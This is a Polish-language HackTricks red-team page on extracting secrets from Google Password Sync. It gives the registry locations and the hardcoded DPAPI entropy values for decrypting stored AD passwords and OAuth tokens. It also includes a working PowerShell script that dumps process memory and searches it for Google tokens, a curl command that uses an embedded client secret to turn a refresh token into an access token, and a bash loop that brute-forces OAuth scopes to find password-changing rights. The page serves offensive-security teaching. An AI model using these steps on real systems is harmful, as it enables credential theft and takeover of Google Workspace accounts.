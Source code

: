 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Podstawowe informacje

To jest binarny plik i usługa, które Google oferuje w celu **utrzymania synchronizacji haseł użytkowników między AD** a Workspace. Za każdym razem, gdy użytkownik zmienia swoje hasło w AD, jest ono ustawiane w Google.

Instaluje się w `C:\Program Files\Google\Password Sync`, gdzie można znaleźć binarny plik `PasswordSync.exe` do jego konfiguracji oraz `password_sync_service.exe` (usługa, która będzie nadal działać).

### GPS - Konfiguracja

Aby skonfigurować ten binarny plik (i usługę), należy **dać mu dostęp do Super Admina w Workspace**:

* Zaloguj się za pomocą **OAuth** z Google, a następnie **zapisze token w rejestrze (szyfrowany)**
* Dostępne tylko w kontrolerach domeny z GUI
* Podając **poświadczenia konta usługi z GCP** (plik json) z uprawnieniami do **zarządzania użytkownikami Workspace**
* Bardzo zły pomysł, ponieważ te poświadczenia nigdy nie wygasają i mogą być nadużywane
* Bardzo zły pomysł, aby dać SA dostęp do workspace, ponieważ SA może zostać skompromitowane w GCP i możliwe będzie przejście do Workspace
* Google wymaga tego dla kontrolowanych domen bez GUI
* Te poświadczenia są również przechowywane w rejestrze

Jeśli chodzi o AD, możliwe jest wskazanie, aby używał aktualnego **kontekstu aplikacji, anonimowego lub jakichś konkretnych poświadczeń**. Jeśli wybrano opcję poświadczeń, **nazwa użytkownika** jest przechowywana w pliku na **dysku**, a **hasło** jest **szyfrowane** i przechowywane w **rejestrze**.

### GPS - Zrzut hasła i tokenu z dysku

{% hint style="success" %}
Zauważ, że [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) jest w stanie wykryć **GPS**, uzyskać informacje o konfiguracji i **nawet odszyfrować hasło i token**.
{% endhint %}

W pliku **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** można znaleźć część konfiguracji, taką jak **`baseDN`** skonfigurowanego AD oraz **`username`**, których poświadczenia są używane.

W rejestrze **`HKLM\Software\Google\Google Apps Password Sync`** można znaleźć **szyfrowany token odświeżania** oraz **szyfrowane hasło** dla użytkownika AD (jeśli istnieje). Ponadto, jeśli zamiast tokenu używane są jakieś **poświadczenia SA**, również można je znaleźć szyfrowane w tym adresie rejestru. **Wartości** w tym rejestrze są dostępne tylko dla **Administratorów**.

Szyfrowane **hasło** (jeśli istnieje) znajduje się w kluczu **`ADPassword`** i jest szyfrowane za pomocą API **`CryptProtectData`**. Aby je odszyfrować, musisz być tym samym użytkownikiem, który skonfigurował synchronizację haseł i użyć tej **entropii** podczas korzystania z **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Szyfrowany token (jeśli istnieje) znajduje się w kluczu **`AuthToken`** i jest szyfrowany za pomocą API **`CryptProtectData`**. Aby go odszyfrować, musisz być tym samym użytkownikiem, który skonfigurował synchronizację haseł i użyć tej **entropii** podczas korzystania z **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Ponadto jest również kodowany za pomocą base32hex z użyciem słownika **`0123456789abcdefghijklmnopqrstv`**.

Wartości entropii zostały znalezione przy użyciu narzędzia. Zostało skonfigurowane do monitorowania wywołań do **`CryptUnprotectData`** i **`CryptProtectData`**, a następnie narzędzie zostało użyte do uruchomienia i monitorowania `PasswordSync.exe`, które odszyfruje skonfigurowane hasło i token autoryzacji na początku, a narzędzie **pokaże wartości entropii użytej** w obu przypadkach:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Zauważ, że możliwe jest również zobaczenie **odszyfrowanych** wartości w wejściu lub wyjściu wywołań do tych API (w przypadku, gdy w pewnym momencie Winpeas przestanie działać).

W przypadku, gdy synchronizacja haseł została **skonfigurowana z poświadczeniami SA**, również będzie przechowywana w kluczach w rejestrze **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Zrzut tokenów z pamięci

Podobnie jak w przypadku GCPW, możliwe jest zrzucenie pamięci procesu `PasswordSync.exe` oraz procesów `password_sync_service.exe`, a będziesz w stanie znaleźć tokeny odświeżania i dostępu (jeśli zostały już wygenerowane).\
Myślę, że można również znaleźć skonfigurowane poświadczenia AD.

<details>

<summary>Zrzut <code>PasswordSync.exe</code> i procesów <code>password_sync_service.exe</code> oraz wyszukiwanie tokenów</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Generowanie tokenów dostępu z tokenów odświeżających

Używając tokena odświeżającego, możliwe jest generowanie tokenów dostępu przy użyciu go oraz identyfikatora klienta i tajnego klucza klienta określonych w następującym poleceniu:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Zakresy

{% hint style="info" %}
Zauważ, że nawet posiadając token odświeżający, nie jest możliwe żądanie żadnego zakresu dla tokena dostępu, ponieważ możesz żądać tylko **zakresów obsługiwanych przez aplikację, w której generujesz token dostępu**.

Ponadto, token odświeżający nie jest ważny w każdej aplikacji.
{% endhint %}

Domyślnie GPS nie będzie miał dostępu jako użytkownik do każdego możliwego zakresu OAuth, więc używając poniższego skryptu możemy znaleźć zakresy, które można wykorzystać z `refresh_token`, aby wygenerować `access_token`:

<details>

<summary>Skrypt Bash do brute-force zakresów</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

A oto wynik, który otrzymałem w momencie pisania:
```
https://www.googleapis.com/auth/admin.directory.user
```
Który jest taki sam, jak ten, który otrzymujesz, jeśli nie wskażesz żadnego zakresu.

{% hint style="danger" %}
Z tym zakresem możesz **zmodyfikować hasło istniejącego użytkownika, aby zwiększyć uprawnienia**.
{% endhint %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
